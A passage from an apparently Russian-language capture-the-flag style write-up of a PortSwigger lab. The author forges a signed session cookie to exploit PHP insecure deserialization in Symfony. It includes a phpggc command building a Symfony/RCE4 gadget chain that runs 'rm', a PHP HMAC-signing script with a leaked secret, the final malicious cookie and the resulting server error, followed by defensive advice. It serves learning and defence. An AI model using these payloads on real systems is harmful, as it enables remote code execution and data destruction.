A%4F%6A%51%36%49%6D%56%34%5A%57%4D%69%4F%33%31%39%43%67%3D%3D%22%2C%22%73%69%67%5F%68%6D%61%63%5F%73%68%61%31%22%3A%22%35%32%66%63%65%63%33%33%33%38%39%65%64%63%65%61%66%34%38%61%35%63%65%36%66%64%31%37%31%30%39%35%37%32%38%65%63%39%36%34%22%7D
```


отправляю тот же запрос 

```http
GET /my-account?id=wiener HTTP/2
Host: 0aac007c03dbd20a81e2bb5900990082.web-security-academy.net
Cookie: session=%7B%22%74%6F%6B%65%6E%22%3A%22%54%7A%6F%30%4E%7A%6F%69%55%33%6C%74%5A%6D%39%75%6..............
```

###  ⭐️⭐️ победа - лаба решена
но и ошибка выпала

```html
<h4>Internal Server Error: Symfony Version: 4.3.6</h4>

   <p class=is-warning>PHP Fatal error:  Uncaught Error: Call to a member function saveDeferred() on null in /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/ProxyAdapter.php:225
Stack trace:
#0 /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/ProxyAdapter.php(191): Symfony\Component\Cache\Adapter\ProxyAdapter-&gt;doSave(Array, &apos;saveDeferred&apos;)
#1 /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/TagAwareAdapter.php(125): Symfony\Component\Cache\Adapter\ProxyAdapter-&gt;saveDeferred(Object(Symfony\Component\Cache\CacheItem))
#2 /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/TagAwareAdapter.php(286): Symfony\Component\Cache\Adapter\TagAwareAdapter-&gt;invalidateTags(Array)
#3 /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/TagAwareAdapter.php(291): Symfony\Component\Cache\Adapter\TagAwareAdapter-&gt;commit()
#4 [internal function]: Symfony\Compo in /usr/local/envs/php-symfony-4.3.6/vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/ProxyAdapter.php on line 225</p>
```


-------------

# как решил лабу - итоги

1) в куки был json  session={"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ= =","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

2) а в json был обьект Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==

	после декодировки
	O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vtbcim7g5c5597mqzmpf3n9aljzepb54";}

3) в HTML страницы был забыт коммент   <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->

перешел по ссылке и получил доступ к конфигурации сервера!

4) нашел ключ которым подписывается hmac

5) определил версию php
6) поставил прогу  phpggc

7) через прогу создал пейлоад `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64` который  мою команду для сервера десериализует в PHP код - 

8)  этот код нужно подписать ключом hmac (благо ключ я обнаружил вот здесь <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->) 
9) далее небольшим скриптом подписал ключом этот PHP код

```php
<?php
$secret = 'qxnlw17zeddd9a7wkx5xlagqmxlgv1bt';
$token = 'Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==';

$sig = hash_hmac('sha1', $token, $secret);
echo $sig . "\n";
?>
```

10) теперь уже когда все компоненты в сборе - я собрал все воедино  как в оригинальном куке обьекте


```

{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"52fcec33389edceaf48a5ce6fd171095728ec964"}

```

ну и как в ориг запросе - кодировал URL
11) отправил вместе с ориг запросом и сервер выполнил мой код! RCE во всей своей красе! 


12) это история о том, как кто-то забыл все ключи от сервера в коментарии в html (что даже глупо - ну совсем уже..)

13) зато я понял как может быть выполнена RCE через десириализацию!


---------

# как защищаться?

никогда не бери данные от юзера в unserialize. вообще

не храни ключи там, где их может увидеть любой, особенно в phpinfo

обновляй библиотеки, старые версии всегда дырявые

подписывай куки hmac-ом и храни ключ только на сервере

выключи показ ошибок с путями и версиями наружу

не оставляй дебаг ссылки в коде, даже в комментариях

и главное - не десериализуй ничего, чему не доверяешь на 100%


